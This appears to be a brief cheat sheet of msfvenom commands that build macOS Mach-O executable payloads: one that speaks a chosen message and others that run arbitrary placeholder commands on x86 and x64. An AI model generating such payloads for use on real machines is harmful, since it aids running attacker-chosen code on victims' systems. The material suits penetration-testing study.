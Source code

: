 # Executable Binary Payloads

## Text-To-Speech OSX Exec Payload

```
$ msfvenom -p osx/x64/say text=<message> -f macho -o speak-x64
```

## Execute OSX Exec Payload

```
$ msfvenom -p osx/x86/exec cmd="<commands>" -f macho -o exec-cmd-x86

$ msfvenom -p osx/x64/exec cmd="<commands>" -f macho -o exec-cmd-x64
```
